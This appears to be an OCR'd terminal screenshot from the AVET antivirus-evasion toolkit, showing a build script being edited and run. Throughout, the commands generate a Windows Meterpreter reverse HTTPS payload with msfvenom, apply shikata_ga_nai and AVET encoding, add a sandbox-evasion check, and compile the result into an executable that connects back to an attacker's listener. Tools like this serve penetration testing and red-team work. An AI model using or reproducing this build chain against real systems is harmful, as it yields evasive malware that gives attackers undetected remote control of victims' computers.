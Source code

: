 ```
34: build_downloadiexplorer_revhttps_win32.sh
35: build_dynamicfromfile_revhttps_win32.sh
36: build_gethostbyname_revhttps_win32.sh
Input number of the script you want use and hit enter: 4

Now you can edit the build script line by line.

Use AVET encoding.
print AVET logo
$ cat banner.txt
include script containing the compiler var $win32_compiler
you can edit the compiler in build/global_win32.sh
or enter $win32_compiler="mycompiler" here
$ . build/global_win32.sh
import feature construction interface
$ . build/feature_construction.sh
import global default lhost and lport values from build/global_connect_config.sh
$ . build/global_connect_config.sh
override connect-back settings here, if necessary
$ LPORT=$GLOBAL_LPORT
$ LHOST=$GLOBAL_LHOST
make meterpreter reverse payload, encoded with shikata_ga_nai
$ msfvenom -p windows/meterpreter/reverse_https lhost=$LHOST lport=$LPORT -e x86/shikata_ga_nai -i 3 -f c -a x86 --platform Windows > input/sc_c.txt
encode the shellcode via AVET encoding.
$ encode_payload avet input/sc_c.txt input/scenc_raw.txt
add fopen sandbox evasion
$ add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
convert encoded shellcode file to c array style for static include
$ ./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf
no command preexec
$ set_command_source no_data
$ set_command_exec no_command
set shellcode source
$ set_payload_source static_from_file input/scenc_c.txt
set decoder and key source
AVET decoder needs no key
$ set_decoder avet
$ set_key_source no_data
set payload info source
$ set_payload_info_source no_data
set shellcode binding technique
$ set_payload_execution_method exec_shellcode
enable debug output
$ enable_debug_print
compile to output.exe file
$ $win32_compiler -o output/output.exe source/avet.c
$ strip output/output.exe
cleanup
$ cleanup_techniques

The following commands will be executed:
#/bin/bash
cat banner.txt
. build/global_win32.sh
. build/feature_construction.sh
. build/global_connect_config.sh
LPORT=$GLOBAL_LPORT
LHOST=$GLOBAL_LHOST
msfvenom -p windows/meterpreter/reverse_https lhost=$LHOST lport=$LPORT -e x86/shikata_ga_nai -i 3 -f c -a x86 --platform Windows > input/sc_c.txt
encode_payload avet input/sc_c.txt input/scenc_raw.txt
add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
```
